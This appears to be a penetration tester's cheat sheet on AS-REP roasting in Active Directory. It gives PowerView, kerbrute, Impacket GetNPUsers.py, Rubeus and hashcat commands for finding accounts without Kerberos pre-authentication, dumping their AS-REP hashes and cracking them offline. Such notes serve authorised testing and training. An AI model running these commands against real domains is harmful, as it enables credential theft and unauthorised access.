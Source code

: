 # ASREPRoasting Cheat Sheet

## Overview
- **What it is**: Attack to get Ticket Granting Ticket (TGT) for AD accounts with "Do not require Kerberos pre-authentication" enabled (UAC: DONT_REQ_PREAUTH).
- **Why vulnerable**: AS-REP encrypted with user's password; any domain user can request it without pre-auth.
- **Normal pre-auth**: User encrypts timestamp with password; DC validates before issuing TGT.
- **No pre-auth**: Attacker requests AS-REQ, gets encrypted TGT (AS-REP) for offline cracking (e.g., Hashcat/John).
- **Similar to Kerberoasting**: Targets AS-REP (not TGS-REP); no SPN required.
- **Success factors**: Weak passwords; if you have GenericWrite/GenericAll on account, enable/disable attribute temporarily.
- **View setting**: ADUC > User Properties > Account tab > "Do not require Kerberos preauthentication".
- **Report note**: Flag as finding even if uncrackable; assess if setting is needed.

## Enumeration
- **PowerView (Windows)**: Find users with pre-auth disabled.
  ```
  Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl
  ```
  - Looks for UAC with DONT_REQ_PREAUTH bit set.
	![[Pasted image 20251007200604.png]]
- **PowerShell AD Module**: Built-in alternative to PowerView.
- **Kerbrute (Linux/Windows)**: During user enum, auto-dumps AS-REP for vulnerable users.
  ```bash
  kerbrute userenum -d DOMAIN --dc DC_IP /path/to/userlist.txt
  ```
  - Outputs hash if found: `$krb5asrep$23$user@DOMAIN:...`
- **Impacket GetNPUsers.py (Linux)**: Scan users for no pre-auth, dump hashes.
  ```bash
  GetNPUsers.py DOMAIN/ -dc-ip DC_IP -no-pass -usersfile userlist.txt
  ```
  - Skips non-vulnerable; outputs Hashcat-format hashes for vulnerable ones.
  - Works without auth if anonymous LDAP allowed; errors on invalid users.

## Attack Execution
- **No domain join needed**: Can run from non-domain host if you know SAMAccountName.
- **Rubeus (Windows)**: Roast AS-REP.
  ```
  .\Rubeus.exe asreproast /user:TARGET_USER /nowrap /format:hashcat
  ```
  - `/nowrap`: Prevents line wrapping for clean hash output.
  - Output: `$krb5asrep$23$user@DOMAIN:...`
- **If perms allow**: Enable DONT_REQ_PREAUTH, roast, then disable.
- **Kerbrute integration**: Auto-roasts during enum (see above).
	- ![[Pasted image 20251007201034.png]]
## Cracking
- **Hashcat**: Mode 18200 (Kerberos 5 AS-REP etype 23).
  ```
  hashcat -m 18200 hash_file /path/to/wordlist.txt
  ```
  - Example cracked: `Welcome!00`
- **John the Ripper**: Alternative cracker.
- **Tips**: Use rockyou.txt or custom lists; offline, no DC interaction.

## Key Tools
- **Windows**: PowerView (enum), Rubeus (roast).
- **Linux**: Kerbrute (enum + roast), Impacket GetNPUsers.py (enum + roast).
- **General**: No auth needed for roast if pre-auth disabled; great for initial foothold or escalation.